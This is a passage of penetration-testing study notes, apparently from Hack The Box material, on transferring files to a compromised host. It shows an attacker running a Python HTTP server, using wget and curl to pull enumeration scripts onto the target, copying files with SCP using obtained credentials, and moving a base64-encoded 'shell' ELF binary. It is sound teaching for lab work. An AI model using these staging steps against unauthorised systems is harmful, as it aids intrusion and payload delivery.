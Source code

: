 - transfer files to the remote server, such as enumeration scripts or exploits, or transfer data back to our attack host.

## Using wget
One method is running a [Python HTTP server](https://developer.mozilla.org/en-US/docs/Learn/Common_questions/set_up_a_local_testing_server) on our machine and then using `wget` or `cURL` to download the file on the remote host.

```shell-session
CaraxesL@htb[/htb]$ cd /tmp
CaraxesL@htb[/htb]$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```shell-session
user@remotehost$ wget http://10.10.14.1:8000/linenum.sh
```

or
```shell-session
curl http://10.10.14.1:8000/linenum.sh -o linenum.sh
```

## Using SCP
granted we have obtained ssh user credentials on the remote host. We can do so as follows:
```shell-session
 scp linenum.sh user@remotehost:/tmp/linenum.sh

user@remotehost's password: *********
linenum.sh
```
Note that we specified the local file name after `scp`, and the remote directory will be saved to after the `:`

## Using Base64
we can use a simple trick to [base64](https://linux.die.net/man/1/base64) encode the file into `base64` format, and then we can paste the `base64` string on the remote server and decode it

```shell-session
 base64 shell -w 0
```
Now, we can copy this `base64` string, go to the remote host, and use `base64 -d` to decode it, and pipe the output into a file:
```shell-session
user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
```
## Validating File Transfers

```shell-session
user@remotehost$ file shell
```
when we run the `file` command on the `shell` file, it says that it is an ELF binary, meaning that we successfully transferred it.

To ensure that we did not mess up the file during the encoding/decoding process, we can check its md5 hash. On our machine, we can run `md5sum` on it:
```shell-session
md5sum shell
```
